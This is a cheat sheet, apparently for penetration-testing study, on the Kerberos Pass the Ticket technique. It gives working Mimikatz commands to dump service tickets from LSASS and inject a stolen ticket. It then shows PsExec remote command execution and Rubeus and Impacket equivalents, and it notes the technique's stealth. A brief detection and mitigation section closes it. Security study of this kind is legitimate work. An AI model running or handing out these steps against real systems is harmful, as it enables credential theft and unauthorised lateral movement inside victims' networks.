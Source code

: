 # **Pass the Ticket (PtT) Cheat Sheet**  
*Steal and reuse Kerberos TGS tickets for lateral movement.*  

---

#### **Conditions for Success**  
1. **Valid Kerberos TGS Ticket**:  
   - A **service ticket** (TGS) for the target service (e.g., `cifs/web04`) must exist in memory.  
2. **Access to LSASS**:  
   - Requires **local admin rights** to dump tickets from LSASS (if stealing from another user).  
3. **No Admin Needed for Injection**:  
   - Injecting tickets into your **own session** does **not** require admin privileges.  

---

### **Steps & Examples**  

#### **1. Dump Kerberos Tickets**  
*Use Mimikatz to export all tickets from memory:*  
```powershell
privilege::debug           # Elevate to DEBUG privileges
sekurlsa::tickets /export  # Export all TGT/TGS to .kirbi files
```  
**Output**: Tickets saved as `.kirbi` files (e.g., `[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`).  

---

#### **2. Inject the Ticket**  
*Load the stolen TGS into your session:*  
```powershell
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```  
**Result**: Ticket is cached in memory for the current session.  

---

#### **3. Verify Tickets**  
```powershell
klist  # List cached tickets
```  
**Expected Output**:  
```plaintext
#0> Client: dave @ CORP.COM  
    Server: cifs/web04 @ CORP.COM  
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96  
```  

---

#### **4. Access Restricted Resources**  
```powershell
ls \\web04\backup  # Access SMB share
# OR
.\PsExec.exe \\web04 cmd.exe  # Execute commands
```  

---

### **Tools & Commands**  
| **Tool**       | **Command**                                                                 |  
|-----------------|-----------------------------------------------------------------------------|  
| **Mimikatz**   | `sekurlsa::tickets /export` + `kerberos::ptt <TICKET.kirbi>`                |  
| **Rubeus**     | `Rubeus.exe asktgs /ticket:<BASE64_TICKET> /service:cifs/web04 /ptt`        |  
| **Impacket**   | `export KRB5CCNAME=<TICKET.ccache>` + use `-k` in tools (e.g., `smbexec.py`)|  

---

### **Key Notes**  
- **Why `whoami` Doesn’t Change**:  
  - `whoami` reflects the **process token** (original user), but Kerberos tickets are stored in the **logon session**.  
- **Stealth**:  
  - PtT uses **Kerberos**, which is less suspicious than NTLM.  
- **Ticket Lifespan**:  
  - Tickets expire (default: **10 hours**). Check `klist` for validity.  

---

### **Detection & Mitigation**  
**Detection**:  
- **Event ID 4769**: Kerberos service ticket requests from unexpected users.  
- **Event ID 4624**: Logon Type 3 (Network) with TGS usage.  

**Mitigation**:  
- Restrict **local admin privileges** to limit LSASS dumping.  
- Enforce **AES encryption** (disable RC4).  
- Monitor for `sekurlsa::tickets` (Mimikatz) or `asktgs` (Rubeus) activity.  

---

### **Example Workflow**  
1. **Dump tickets** from a compromised machine where `dave` is logged in.  
2. **Inject** `dave@cifs-web04.kirbi` into your session.  
3. Access `\\web04\backup` as `dave` without knowing their password!  

---

### **References**  
- [Mimikatz Guide](https://github.com/gentilkiwi/mimikatz/wiki)  
- [Rubeus Documentation](https://github.com/GhostPack/Rubeus)  
